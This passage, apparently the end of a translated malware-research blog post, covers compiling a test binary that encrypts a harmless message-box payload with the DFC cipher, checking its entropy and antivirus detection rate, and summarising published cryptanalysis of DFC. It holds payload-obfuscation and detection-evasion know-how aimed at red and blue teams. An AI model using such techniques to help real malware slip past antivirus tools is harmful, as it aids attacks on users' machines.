-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}

然后，在受害者机器上运行它（我的环境是 Windows 11 x64）：

```powershell
.\hack.exe
```

{width="80%"}

{width="80%"}

如你所见，一切运行完美！=..=

计算香农熵：

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}

我们的载荷位于 `.text` 节。

通过恶意软件扫描器扫描：

{width="80%"}

{width="80%"}

[https://websec.net/scanner/result/8d7862b2-dbba-48bb-924c-a3694cac3269](https://websec.net/scanner/result/8d7862b2-dbba-48bb-924c-a3694cac3269)

上传到 VirusTotal：

{width="80%"}

[https://www.virustotal.com/gui/file/9d702d3194ef3a6160f9ab7f6b30ebaae92c365fa4c12368c7e9ec589ebbe1fd/detection](https://www.virustotal.com/gui/file/9d702d3194ef3a6160f9ab7f6b30ebaae92c365fa4c12368c7e9ec589ebbe1fd/detection)

如你所见，72 个 AV 引擎中只有 29 个把我们的文件判定为恶意。

一个有意思的结果。

如你所知，我在研究和这个博客中看过的许多加密算法都采用了 Feistel 网络。

### 密码分析

对去相关快速密码（DFC）的密码分析已经暴露出其结构中的弱点，尤其是通过差分分析。1999 年，密码学家 Lars Knudsen 和 Vincent Rijmen（Lars R. Knudsen 和 Vincent Rijmen，“On The Decorrelated Fast Cipher (DFC) and Its Theory”，Department of Informatics, University of Bergen, N-5020 Bergen，1999 年 3 月 24 日，第 6 届快速软件加密国际研讨会（FSE '99），罗马：Springer-Verlag，第 81--94 页）发现，DFC 的 8 轮结构可以利用差分攻击被削弱。他们的工作表明，一次差分攻击能够成功攻破 DFC 8 轮中的 6 轮，利用的正是该密码对其 Feistel 轮中特定部分所引入差分的脆弱性。这次攻击揭示了 DFC 在扩散性质上的弱点，说明虽然它是为 AES 竞赛而设计的，但在抵抗密码分析技术方面，DFC 并不像其他一些候选算法那样稳固。

我希望这篇文章对恶意软件研究人员、C/C++ 程序员有所帮助，能让蓝队成员了解这个有趣的加密技巧，并为红队成员的武器库增添一件武器。

[https://en.wikipedia.org/wiki/DFC_(cipher)](https://en.wikipedia.org/wiki/DFC_(cipher))  
[On The Decorrelated Fast Cipher (DFC) and Its Theory. Lars R. Knudsen and Vincent Rijmen](https://citeseerx.ist.psu.edu/document?repid=rep1&type=pdf&doi=2f58280af84f265c65f42d0799a6ca5f9ed620fd)  
[Malware And Hunting For Persistence: How Adversaries Exploit Your Windows? - Cocomelonc. HACKLU 2024](https://www.youtube.com/watch?v=gW8v270HjxI)  
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-11-10-malware-cryptography-34)

如你所见，在 main 函数里我只是把 meow-meow 消息框载荷加密再解密而已。
